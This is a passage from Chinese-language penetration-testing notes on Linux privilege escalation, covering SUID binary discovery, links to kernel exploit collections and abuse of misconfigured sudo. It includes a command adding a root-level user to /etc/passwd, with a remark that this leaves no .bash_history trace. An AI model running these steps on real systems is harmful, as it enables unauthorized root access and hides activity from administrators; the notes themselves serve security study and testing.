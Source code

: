 ## 2 Linux⚒️

Linux 内核提权都有可能导致系统宕机，慎重！

EXP合集：[https://github.com/SecWiki/linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)

[https://github.com/vulmon/Vulmap](https://github.com/vulmon/Vulmap)

文章待看

-   [https://medium.com/bugbountywriteup/write-up-11-common-linux-privilege-escalation-92528853b616](https://medium.com/bugbountywriteup/write-up-11-common-linux-privilege-escalation-92528853b616)

### 2.1 SUID

所谓 SUID，是 Linux 中文件属主的权限，通常再 Other 位置上，比如 passwd，其中 rws，Other 是写的 s，这就是 SID。

```plaintext
-rwsr-xr-x. 1 root root 27832 6月  10 2014 /bin/passwd
```

具体的含义是当你执行 passwd 时，会这个程序会以属主权限执行，这里属主是 root，那么就是会以 root 权限运行。

因此实际在 Linux 中可以搜索带有 SUID 权限的程序，结合运行 Shell 或者其他命令来提权。

```bash
find / -perm -u=s -type f 2> /dev/null
find / -perm -4000 -ls 2> /dev/null
```

搜索到具体应用，怎么利用可以参考备忘录 [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)

### 2.2 sudo 配置滥用

拿到一个 shell 可以先 `sudo -ll` 查查当前用户有没配置 sudo。运维可能对 `/etc/sudofile` 配置不当，导致 UserName 用户不需要密码验证就能以任何用户身份执行任意命令：

```plaintext
UserName ALL=(ALL) NOPASSWD: ALL
```

下面是 admin 组内用户，无需密码即可使用任何用户身份，执行任意命令：

```plaintext
%admin UserName ALL=(ALL) NOPASSWD: ALL
```

这时直接 `sudo command` 就能使用 root 权限执行命令，可以向 `/etc/passwd` 添加 root 权限用户：

```plaintext
sudo sh -c "echo username:x:0:0:::/bin/bash >> /etc/passwd"
sudo -u username /bin/bash
```

为什么不 `sudo -i` 直接切换 root 用户，而是直接追加一个用户到系统呢？这样做通过 sudo 切换到新用户时 .bash\_history 不存在命令记录。

要是 sudo 需要密码，尝试搜集密码，使用其他账户执行命令，但是以上操作动作太大，可能触发告警信息。

要是能执行 find 命令，参数还没做限制就能通过 -exec 拿 shell：

